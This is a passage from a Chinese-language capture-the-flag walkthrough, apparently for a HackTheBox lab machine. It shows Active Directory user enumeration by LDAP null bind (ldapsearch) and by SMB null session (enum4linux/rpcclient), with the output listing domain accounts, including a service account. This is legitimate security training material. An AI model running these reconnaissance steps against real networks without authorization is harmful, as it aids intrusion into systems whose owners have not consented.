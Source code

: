 而且成功了。我可以继续讲述所有的 LDAP 枚举技术，以及我们可以滥用哪些技术来进行空绑定访问，但是在本演练中，让我们只关注用户枚举:)

所以，对于用户枚举，我们可以搜索`objectClass`作为人，搜索`sAMAccountName:`。

```
**### LDAP User Query**
$ ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local "(objectClass=person)" | grep "sAMAccountName:"sAMAccountName: Guest... Machine Accounts Redacted ...**sAMAccountName: sebastien
sAMAccountName: lucinda
sAMAccountName: andy
sAMAccountName: mark
sAMAccountName: santi**
```

## #2 — SMB 空会话

如果 SMB 允许空身份验证，也可以枚举 AD 用户。为此，我们可以使用一个著名的工具叫做`enum4linux`。这个工具只是一堆其他 rcp 客户机工具的包装器，但是它使它变得如此方便。

```
$ enum4linux -v 10.10.10.161
```

如果允许空会话，这将输出大量数据。它还将枚举所有用户。

```
[V] Attempting to get userlist with command: rpcclient -W '' -c enumdomusers -U''%'' '10.10.10.161' 2>&1
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]... Machine Accounts Redacted ...user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a] **user:[svc-alfresco] rid:[0x47b]             # Additional user found** user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

有趣的是，LDAP `sAMAccountName:`搜索没有识别出“svc-alfresco”用户帐户。进一步研究发现，该帐户是“服务帐户”OU 的一部分，不知何故`sAMAccountName:`并不存在。不太确定是否是因为空绑定访问的限制。

![](img/9228162351e7ce9b40d4cdc9a4b7e645.png)
